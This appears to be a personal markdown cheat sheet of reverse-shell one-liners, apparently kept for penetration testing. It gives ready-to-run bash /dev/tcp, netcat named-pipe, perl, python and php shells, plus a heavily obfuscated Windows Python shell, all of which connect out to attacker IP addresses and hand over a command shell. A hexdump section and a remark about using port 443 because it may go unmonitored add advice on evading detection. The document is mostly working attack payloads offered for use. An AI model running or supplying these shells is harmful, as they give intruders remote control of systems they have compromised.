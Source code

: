 # Reverse Shells Stuff
## linux reverse shall using named pipes
```
$ mknod /tmp/backpipe p 
$ /bin/sh 0</tmp/backpipe | nc 192.168.56.101 443 1>/tmp/backpipe
```

## USING PORT 443 WITH REGULAR NETCAT DOES NOT ENCRYPT YOUR SHIT
- below is a hexdump of a pcap oover 443... see any problems here?
- wireshark is misleading on this, because it will identify the protocol as 
SSL based on the port, but the actual data is not encrypted
- counter arg / rationale for still using 443: maybe it's not monitored or more likely to be allowed out
```
0000   0a 00 27 00 00 00 08 00 27 99 b1 5f 08 00 45 00   ..'.....'.±_..E.
0010   00 47 03 d3 40 00 80 06 05 27 c0 a8 38 65 c0 a8   .G.Ó@....'À¨8eÀ¨
0020   38 01 01 bb eb 20 49 67 3a 5d 68 dc 4f 3a 80 18   8..»ë Ig:]hÜO:..
0030   01 03 74 67 00 00 01 01 08 0a 00 13 91 d5 65 20   ..tg.........Õe 
0040   79 25 63 61 74 20 73 75 72 69 2d 72 75 6c 65 73   y%cat suri-rules
0050   2e 74 78 74 0a                                    .txt.
```

## comman reverse shells
- bash
```
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
```
- perl
```
perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```
- python
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
- php
```
php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'

<?php exec("bash -i >& /dev/tcp/10.10.14.11/6666 0>&1") ?>
```

- python on windows : i don't remember where tf this even came from
```
C:\Python27\python.exe -c "(lambda __y, __g, __contextlib: [[[[[[[(s.connect(('10.11.0.37', 4444)), [[[(s2p_thread.start(), [[(p2s_thread.start(), (lambda __out: (lambda __ctx: [__ctx.__enter__(), __ctx.__exit__(None, None, None), __out[0](lambda: None)][2])(__contextlib.nested(type('except', (), {'__enter__': lambda self: None, '__exit__': lambda __self, __exctype, __value, __traceback: __exctype is not None and (issubclass(__exctype, KeyboardInterrupt) and [True for __out[0] in [((s.close(), lambda after: after())[1])]][0])})(), type('try', (), {'__enter__': lambda self: None, '__exit__': lambda __self, __exctype, __value, __traceback: [False for __out[0] in [((p.wait(), (lambda __after: __after()))[1])]][0]})())))([None]))[1] for p2s_thread.daemon in [(True)]][0] for __g['p2s_thread'] in [(threading.Thread(target=p2s, args=[s, p]))]][0])[1] for s2p_thread.daemon in [(True)]][0] for __g['s2p_thread'] in [(threading.Thread(target=s2p, args=[s, p]))]][0] for __g['p'] in [(subprocess.Popen(['\\windows\\system32\\cmd.exe'], stdout=subprocess.PIPE, stderr=subprocess.STDOUT, stdin=subprocess.PIPE))]][0])[1] for __g['s'] in [(socket.socket(socket.AF_INET, socket.SOCK_STREAM))]][0] for __g['p2s'], p2s.__name__ in [(lambda s, p: (lambda __l: [(lambda __after: __y(lambda __this: lambda: (__l['s'].send(__l['p'].stdout.read(1)), __this())[1] if True else __after())())(lambda: None) for __l['s'], __l['p'] in [(s, p)]][0])({}), 'p2s')]][0] for __g['s2p'], s2p.__name__ in [(lambda s, p: (lambda __l: [(lambda __after: __y(lambda __this: lambda: [(lambda __after: (__l['p'].stdin.write(__l['data']), __after())[1] if (len(__l['data']) > 0) else __after())(lambda: __this()) for __l['data'] in [(__l['s'].recv(1024))]][0] if True else __after())())(lambda: None) for __l['s'], __l['p'] in [(s, p)]][0])({}), 's2p')]][0] for __g['os'] in [(__import__('os', __g, __g))]][0] for __g['socket'] in [(__import__('socket', __g, __g))]][0] for __g['subprocess'] in [(__import__('subprocess', __g, __g))]][0] for __g['threading'] in [(__import__('threading', __g, __g))]][0])((lambda f: (lambda x: x(x))(lambda y: f(lambda: y(y)()))), globals(), __import__('contextlib'))"
```

